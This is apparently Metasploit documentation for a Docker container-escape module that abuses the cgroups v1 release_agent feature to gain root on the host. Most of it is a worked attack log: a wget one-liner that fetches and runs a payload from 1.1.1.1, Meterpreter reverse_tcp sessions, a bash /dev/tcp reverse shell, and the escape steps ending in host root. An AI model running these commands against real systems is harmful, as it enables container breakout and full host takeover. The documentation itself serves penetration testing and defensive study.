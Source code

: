 ## Vulnerable Application

This exploit module takes advantage of a Docker image which has either the privileged flag, or SYS_ADMIN Linux capability.
If the host kernel is vulnerable, its possible to escape the Docker image and achieve root on the host operating system.

A vulnerability was found in the Linux kernel's `cgroup_release_agent_write` in the `kernel/cgroup/cgroup-v1.c` function.
This flaw, under certain circumstances, allows the use of the cgroups v1 `release_agent` feature to escalate privileges
and bypass the namespace isolation unexpectedly.

More simply put, cgroups v1 has a feature called `release_agent` that runs a program when a process in the cgroup terminates.
If `notify_on_release` is enabled, the kernel runs the `release_agent` binary as root. By editing the release_agent file,
an attacker can execute their own binary with elevated privileges, taking control of the system. However, the `release_agent`
file is owned by root, so only a user with root access can modify it.

### Docker Setup

`sudo docker run --rm -it --privileged ubuntu:20.04 bash`

or

`sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:20.04 bash`

You may want to install `wget` to make initial exploitation easier as well:

```
apt-get update
apt-get install -y wget
```

## Verification Steps

1. Install Docker and start a docker container
2. Start msfconsole
3. Get a shell on the docker image as root. 
4. Do: `use exploit/linux/local/docker_cgroup_escape`
5. Do: `set lhost [ip]`
6. Do: `set session [#]`
7. Do: `run`
8. You should get a root shell on the host OS.

## Options

## Scenarios

### Ubuntu 18.04 LTS with 4.15.0-96-generic kernel and Docker Ubuntu 20.04

Initial Access

```
resource (docker.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (docker.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (docker.rb)> set srvport 8181
srvport => 8181
resource (docker.rb)> set target 7
target => 7
resource (docker.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (docker.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/QZWpVr8t
[*] Server started.
[*] Run the following command on the target machine:
wget -qO dLFtachL --no-check-certificate http://1.1.1.1:8181/QZWpVr8t; chmod +x dLFtachL; ./dLFtachL& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 2.2.2.2    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60288) at 2023-11-28 13:38:39 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > getuid
Server username: root
(Meterpreter 1)(/) > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 4.15.0-96-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

Exploit the Docker Escape

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/local/docker_cgroup_escape
[*] Using configured payload cmd/unix/reverse_bash
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lhost 1.1.1.1
lhost => 1.1.1.1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lport 9988
lport => 9988
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set verbose true
verbose => true
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > run

[+] bash -c '0<&181-;exec 181<>/dev/tcp/1.1.1.1/9988;sh <&181 >&181 2>&181'
[*] Started reverse TCP handler on 1.1.1.1:9988 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Unable to determine host OS, this check method is unlikely to be accurate if the host isn't Ubuntu
[+] The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-96-generic is vulnerable
[*] Creating folder for mount: /tmp/eH7EY
[*] Creating directory /tmp/eH7EY
[*] /tmp/eH7EY created
[*] Mounting cgroup
[*] Creating folder in cgroup for exploitation: /tmp/eH7EY/qe0oj7G
[*] Creating directory /tmp/eH7EY/qe0oj7G
[*] /tmp/eH7EY/qe0oj7G created
[*] Enabling notify on release for group qe0oj7G
[*] Determining the host OS path for image
[*] Host OS path for image: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff
[*] Setting release_agent path to: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff/tmp/KksBaCbF
[*] Uploading payload to /tmp/KksBaCbF
[*] Writing '/tmp/KksBaCbF' (88 bytes) ...
[*] Triggering payload with command: sh -c "echo $$ > /tmp/eH7EY/qe0oj7G/cgroup.procs"
[*] Command shell session 2 opened (1.1.1.1:9988 -> 2.2.2.2:54990) at 2023-11-28 14:39:10 -0500
[*] Cleanup: Unmounting /tmp/eH7EY

FDjfSpoVnqvGmrtBOSRfABBgFMmcSkbT
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```
